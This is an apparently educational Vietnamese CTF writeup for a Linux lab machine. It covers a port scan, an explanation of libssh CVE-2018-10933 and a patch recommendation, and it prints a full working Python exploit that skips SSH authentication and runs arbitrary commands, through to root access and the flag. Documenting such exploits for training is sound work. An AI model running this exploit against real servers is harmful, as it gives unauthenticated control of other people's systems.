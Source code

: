 ```yaml
---
title: Bob Machine Writeup
subtitle: Linux Challenge trong môn An toàn mạng máy tính
readtime: true
thumbnail-img: /assets/img/BobMachine/thumbnail.jpeg
cover-img: /assets/img/BobMachine/cover-img.jpeg
tags: [Linux, Machine, Libssh, CVE]
---
```


Đây là một Linux Box ở mức tương đối dễ. Tuy nhiên, để khi làm những bài như này sẽ giúp nâng cao trình exploit và rèn luyện tư duy của mình dần dần.  

# ***Thông tin dịch vụ***

| Địa chỉ IP      | Các port đang mở |
| ----------- | ----------- |
| 192.168.19.112  | TCP: 22, 25, 53, 80, 110, 143, 443, 587, 993,995, 3306, 7337   |
|    | UDP: Không có  |

# ***Leo thang đặc quyền***

**Lỗ hổng đã khai thác:**

> **LibSSH 0.7.6 / 0.8.4 - Unauthorized Access (CVE-2018-10933)**

**Giải thích lỗ hổng:**
Một lỗ hổng nghiêm trọng trong Libssh, thư viện triển khai Secure Shell (SSH) đã đửợc phát hiện, cho phép vượt quá cơ chế xác thực và chiếm quyền quản trị trên máy chủ tồn tại lỗ hổng mà không cần mật khẩu. Lỗ hổng được đặt tên là `CVE-2018-10933`, tồn tại trong phiên bản Libssh 0.6 đửợc phát hành trước năm 2014, khiến máy chủ các doanh nghiệp bị tấn công khi sử dụng các phiên bản trửớc 0.7.6 và 0.8.4. Nhửng rất may là OpenSSH và triển khai libssh trên Github không bị ảnh hửởng bởi lỗ hổng. Lỗ hổng xuất phát từ lỗi codế trong Libssh và "vô cùng đơn giản" để khai thác. Kẻ tấn công chỉ cần gửi một thông điệp `SSH2_MSG_USERAUTH_SUCCESS` tới một
máy chủ có kết nối SSH đửợc kích hoạt, tháy vì thông điệp chính xác là `SSH2_MSG_USERAUTH_REQUEST`. Vì lỗi logic trong libssh, thử viện không xác thực đửợc gói tin “đăng nhập thành công” đửợc gửi bởi máy chủ hay từ client và cũng không thể kiểm tra chính xác quá trình xác thực đã hoàn thành hay chưa. Do đó, nếu kẻ tấn công từ xa (client) gửi phản hồi `SSH2_MSG_USERAUTH_SUCCESS` này tới libssh, libssh coi xác thực đã thành công và cấp cho kẻ tấn công quyền truy cập vào máy chủ mà không cần nhập mật khẩu. Libssh đã giải quyết vấn đề này bằng việc phát hành các phiên bản libssh 0.8.4 và 0.7.6 vào ngày 16/10/2018, đồng thời công bố thông tin chi tiết của lỗ hổng.

**Khuyến nghị vá lỗ hổng:**
Nếu đã cài đặt Libssh trên trang web và đang sử dụng thành phần máy chủ, người dùng được khuyến cáo nên cài đặt các phiên bản cập nhật của Libssh trong thời gian sớm nhất.

**Mức độ ảnh hưởng:** [Cao] (CVSS Score: 6.4)

**Cách thức khai thác:**

```js
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

#pip3 install paramiko==2.0.8
#logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
logging.basicConfig(stream=sys.stdout)
bufsize = 2048

def execute(hostname, port, command):

 sock = socket.socket()

 try:
    sock.connect((hostname, int(port)))
    message = paramiko.message.Message()
    transport = paramiko.transport.Transport(sock)
    transport.start_client()
    message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
    transport._send_message(message)
    client = transport.open_session(timeout=10)
    client.exec_command(command)
    # stdin = client.makefile("wb", bufsize)
    stdout = client.makefile("rb", bufsize)
    stderr = client.makefile_stderr("rb", bufsize)
    output = stdout.read()
    error = stderr.read()
    stdout.close()
    stderr.close()
    return (output+error).decode()

 except paramiko.SSHException as e:
    logging.exception(e)
    logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")

 except socket.error:
    logging.debug("Unable to connect.")
 return None
 
if __name__ == '__main__':
 print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))
```

**Các bước khai thác:**

Sử dụng công cụ nmap thực hiện quét các port đáng mở trên máy mục tiêu 192.168.19.112. Kết quả cho thấy có 12 port TCP đáng mở gồm: `22, 25 53, 80, 110, 143, 443, 587, 993, 995, 3306, 7337`.

![nmap all ports](/assets/img/BobMachine/nmap.png){: .mx-auto.d-block :}

Sau nhiều thời gian khám phá, scan tất cả các port từ trên xuống dưới, ta tìm ra lỗ hổng từ port `7337` với dịch vụ SSH phiên bản `libssh 0.8.3`

![nmap 7337](/assets/img/BobMachine/nmap2.png){: .mx-auto.d-block :}

Thực hiện tìm kiếm các mã exploit phiên bản libssh này bằng công cụ searchsploit. Kết quả trả về 2 lỗ hổng liên quan đến libssh bao gồm mã exploit có thể sử dụng. Sau quá trình khai thác lỗ hổng đầu tiên không thành công, ta thực hiện khai thác lỗ hổng `Unauthorized Access` của libssh (đã đề cập ở trên). Truy cập đường dẫn và sử dụng mã nguồn đã cung cấp ở trên.

![searchsploit](/assets/img/BobMachine/libssh_cve.png){: .mx-auto.d-block :}

Mã exploit trên là đoạn mã python3, được ta sử dụng với 3 tham số: `IP nạn nhân (192.168.19.112), Port (7337), Command (lệnh thực thi trên shell)`. Dưới đây chúng tôi sử dụng lệnh `ls` để kiểm chứng.

![ls](/assets/img/BobMachine/exploit_ls.png){: .mx-auto.d-block :}

Kết quả trả về gồm các thư mục hiện có trên máy nạn nhân.

**Hình ảnh minh chứng:**

Kiểm tra tên user bằng lệnh whoami, thì kết quả cho thấy chúng tôi đã exploit được và leo thang đặc quyền lên root.

![whoami](/assets/img/BobMachine/whoami.png){: .mx-auto.d-block :}

**Nội dung tập tin Proof.txt:**

Tìm kiếm file proof.txt bằng `find / -uname proof.txt 2>/dev/null`. Kết quả trả về `root/proof.txt`, `cat` để xem nội dung flag có trong tập tin proof.txt.

![flag](/assets/img/BobMachine/flag.png){: .mx-auto.d-block :}

> **FLAG: flag{khong_som_thi_chieu_khong_mai_thi_mo}**
